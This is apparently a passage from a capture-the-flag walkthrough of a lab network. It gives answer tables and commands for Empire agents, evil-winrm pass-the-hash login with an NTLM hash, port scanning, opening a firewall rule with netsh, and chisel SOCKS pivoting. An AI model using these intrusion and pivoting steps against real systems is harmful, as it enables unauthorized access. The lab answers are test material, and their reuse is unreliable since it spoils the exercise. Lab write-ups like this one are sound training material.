 
| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Can we get an agent back from the git server directly (Aye, Nay) ? | Nay |

## Command and Controll : Empire Agents


| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Using the `help` command for guidance: In Empire CLI, how would we run the `whoami` command inside an agent ? | shell whoami |

## Personal PC : Enumeration

> Connect to the compromised git server
```
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.101.150 -s /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network

```
> scanning the target
```
Invoke-Portscan.ps1
Get-Help Invoke-Portscan
Invoke-Portscan -Hosts 10.200.101.100 -TopPorts 50
```

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Scan the top 50 ports of hte last IP address you found in Task 17. Which ports are open (lowest to highest, separated by comma) | 80,3389 |

## Personal PC : Pivoting

> first we need to open a port in firewall into the git server machine (windows )
```
netsh advfirewall firewall add rule name="chisel-littlehuman" dir=in action=allow protocol=tcp localport=44444
```

> running chisel server on git server (windows)
```
./chisel server -p 44444 --socks5
```

> connecting the chisel server from local kali machine
```
./chisel client 10.200.101.150:44444 4444:socks

```

### setting up the foxyproxy
 * open foxyproxy options
 * add new proxy with ip : `127.0.0.1` port : `4444` proxy type : `socks5`
 * save the proxy and switch to that proxy
 